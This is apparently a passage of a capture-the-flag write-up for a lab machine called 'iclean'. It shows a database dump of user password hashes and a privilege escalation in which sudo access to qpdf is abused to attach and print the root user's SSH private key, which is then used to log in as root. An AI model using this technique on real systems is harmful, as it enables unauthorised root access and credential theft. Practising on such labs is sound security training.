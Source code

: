 mysql> select username,password from users;
+----------+------------------------------------------------------------------+
| username | password                                                         |
+----------+------------------------------------------------------------------+
| admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 |
| consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa |
+----------+------------------------------------------------------------------+

---
#### 
pass1:
 simple and clean 
![[Pasted image 20250203110120.png]]
```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```


```bash
consuela@iclean:~$ find / -name *.pdf 2>/dev/null
/usr/share/doc/shared-mime-info/shared-mime-info-spec.pdf

```


/_dev/shm is a temporary file storage filesystem_, ie, tmpfs, that uses RAM for the backing store.

```bash
consuela@iclean:/dev/shm$ sudo qpdf my.pdf --add-attachment /root/.ssh/id_rsa -- out.pdf

consuela@iclean:/dev/shm$ sudo qpdf --list-attachments out.pdf
id_rsa -> 653,0



consuela@iclean:/dev/shm$ sudo qpdf --show-attachment=id_rsa out.pdf
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
consuela@iclean:/dev/shm$ 

```

```bash
┌──(pwn㉿kali)-[~/iclean]
└─$ sudo ssh -i root.rsa root@10.10.11.12
```
![[Pasted image 20250203110229.png]]


![[Pasted image 20250203110310.png]]